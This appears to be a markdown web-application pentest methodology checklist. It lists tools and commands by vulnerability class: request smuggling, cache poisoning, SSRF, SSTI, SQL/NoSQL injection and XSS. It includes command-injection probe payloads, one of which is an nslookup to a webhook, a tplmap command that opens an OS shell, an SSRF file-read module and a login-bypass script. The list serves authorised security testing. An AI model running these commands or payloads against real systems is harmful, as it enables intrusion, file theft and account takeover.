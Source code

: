 # Methodology

## Proxies
- 🟡 __Abusing hop-by-hop headers__
```bash
// Tool hbh-header-abuse-test
for HEADER in $(cat /usr/share/seclists/Discovery/Web-Content/BurpSuite-ParamMiner/lowercase-headers); do python3 hbh-header-abuse-test.py -u <url> -x "$HEADER" -v; :'sleep 1'; done
```
- 🔴 __Cache Poisoning/Cache Deception__
```bash
// Tool Web-Cache-Vulnerability-Scanner
go install -v github.com/Hackmanit/Web-Cache-Vulnerability-Scanner@latest
cp go/Web-Cache-Vulnerability-Scanner tools/Web-Cache-Vulnerability-Scanner/wcvs
cd tools/Web-Cache-Vulnerability-Scanner/
./wcvs -u <url> -hw wordlists/headers -pw wordlists/parameters -f
```
- 🔴 __HTTP Request Smuggling__ 
```bash
// Burp - HTTP Request Smuggler
- Right click on a request and click Extensions > HTTP HTTP Request Smuggler > Smuggle Probe.

// Tool Smuggler by gwen001
wget https://raw.githubusercontent.com/gwen001/pentest-tools/master/smuggler.py
python3 smuggler.py -u <url> -v 3
```
- 🔴 __H2C Smuggling__
```
// Tool h2csmuggler
python3 h2csmuggler.py -x <url> -t --threads 5 -v
```
- 🟡 __Server Side Inclusion/Edge Side Inclusion__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Uncovering Cloudflare__
- 🔴 __XSLT Server Side Injection__

## User input
### Reflected Values
- 🔴 __Client Side Template Injection__ (Like SSTI)
- 🔴 __Command Injection__
```
// Tool commix
commix -r <REQUESTFILE> -p <TEST_PARAMETER>

// Test delay
original_cmd_by_server;sleep+5
original_cmd_by_server&&sleep+5
original_cmd_by_server|sleep+5
original_cmd_by_server||sleep+5

// Test when no effect on the application's response
original_cmd_by_server;nslookup+<webhook>
```
- 🟠 __CRLF__
```
// Tool crlfuzz
crlfuzz -u <url>
```
- 🔴 __Dangling Markup__
- 🔴 __File Inclusion/Path Traversal__ (Detected by 👉 Burp Active Scanner)
```
// Fast Fuzzing
wfuzz -c -w /usr/share/wfuzz/wordlist/Injections/Traversal.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
// Deep Fuzzing (recommend)
wfuzz -X GET -c -w file_inclusion_linux.txt --hw 0 http://10.10.10.10/nav.php?page=FUZZ
wfuzz -X POST -c -w file_inclusion_linux.txt --hw 0 -d "foo=FUZZ" http://10.10.10.10/nav.php
```
- 🟠 __Open Redirect__ (Detected by 👉 Burp Active Scanner)
- 🔴 __Prototype Pollution to XSS__ (NodeJS)
- 🟡 __Server Side Inclusion/Edge Side Inclusion__ (🔼 previous step)
- 🔴 __Server Side Request Forgery__
```
// Tool See-SURF (Test vulnerable parameter)
python3 see-surf.py -H <HOST> -b <BURP> -t 10

// Tool SSRFmap
python3 ssrfmap.py -r <REQFILE> -p <PARAM> -m readfiles,portscan

// Tool Gopherus (SSRF to RCE)
https://github.com/tarunkant/Gopherus
```
- 🔴 __Server Side Template Injection__ (Detected by 👉 Burp Active Scanner)
```
// Tool tplmap
python2 tplmap.py -u 'http://10.10.10.10/page?name=Box*' --os-shell
```
- 🟠 __Reverse Tab Nabbing__ (Detected by 👉 Burp Extension - Discover Reverse Tabnabbing)
- 🔴 __XSLT Server Side Injection__ (🔼 previous step)
- 🔴 __XSS__ (Detected by 👉 Burp Active Scanner)
```
// Tool DalFox
dalfox url http://10.10.10.10/?search=a -p search

// Tool XSStrike
python3 xsstrike.py -u "http://10.10.10.10/?search=a"
```
- 🔴 __XSSI__ (Detected by 👉 Burp Extension - Detect Dynamic JS_
- 🔴 __XS-Search__

### Search functionalities
- 🔴 __File Inclusion/Path Traversal__ (🔼 previous step)
- 🔴 __NoSQL Injection__
```
// Tool Nosql injection username and password enumeration script
python3 nosqli-user-pass-enum.py -u <URL> -up <USERNAME-PARAM> -pp <PASSOWRD-PARAM> -ep <ENUM-PARAM> -m <GET/POST>

// NoSQL-Attack-Suite
python3 nosql-login-bypass.py -t <TARGET> -u <USERNAME> -p <PASSWORD>
```
- 🔴 __LDAP Injection__
```
// Fuzzing
https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP_FUZZ.txt
```
- 🔴 __ReDoS__
```
Regular Expression Denial of Service
// Tools
https://github.com/doyensec/regexploit
https://devina.io/redos-checker
```
- 🔴 __SQL Injection__
```
// Tool SQLmap
sqlmap -u <URL> -p <TESTPARAMETER> --threads=10 --risk=3 --level=5 --dbms=<DBMS> --banner
```
- 🔴 __XPATH Injection__
```
// Tool XCat
xcat --help
```

### Forms, WebSockets and PostMsgs
- 🔴 Cross Site Request Forgery (Detected by 👉 Burp Active Scanner)
```
// Tool XSRFProbe
xsrfprobe -u <URL>
```
- 🔴 Cross-site WebSocket hijacking (CSWSH)
```
// Tool STEWS
python3 STEWS-vuln-detect.py -u <URL> -1
```
- 🔴 PostMessage Vulnerabilities

### HTTP Headers
- 🟡 Clickjacking (Detected by 👉 Burp Scanner)
```
OR can use tool Clickjacking checker online
```
- 🟢 Content Security Policy bypass
```
// Checking CSP Policies Online
https://csp-evaluator.withgoogle.com/
https://cspvalidator.org/
```
- 🟢 Cookies Hacking (Detected by 👉 Burp Scanner)
```
HttpOnly
TRACE HEADER
nmap --script http-trace -d <ip>
```
- 🟠 CORS - Misconfigurations & Bypass (Detected by 👉 Burp Scanner)
```
// Tool Corsy
python3 corsy.py -u <URL> -t 20 --header "Cookie: session=___"
```

### Bypasses
- 🔴 2FA/OTP Bypass
- 🔴 Bypass Payment Process
- 🔴 Captcha Bypass
- 🔴 Login Bypass
- 🔴 Race Condition
- 🔴 Rate Limit Bypass
- 🔴 Reset Forgotten Password Bypass
- 🔴 Registration Vulnerabilities

